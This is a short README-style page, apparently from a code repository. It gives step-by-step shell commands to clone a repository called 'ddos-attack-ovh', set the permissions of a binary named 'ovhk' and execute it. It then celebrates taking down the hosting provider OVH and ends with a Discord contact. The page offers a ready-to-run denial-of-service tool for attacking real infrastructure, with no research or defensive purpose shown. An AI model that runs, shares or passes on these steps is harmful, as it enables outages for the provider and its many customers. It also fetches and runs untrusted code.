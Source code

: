 #1
git clone https://github.com/Pupzles/ddos-attack-ovh.git
#2
cd ddos-attack-ovh
#3
chmod 777 ovhk
#4
./ovhk 
#5
OVH DOWN :)


Discord ; RomanRequest#0337
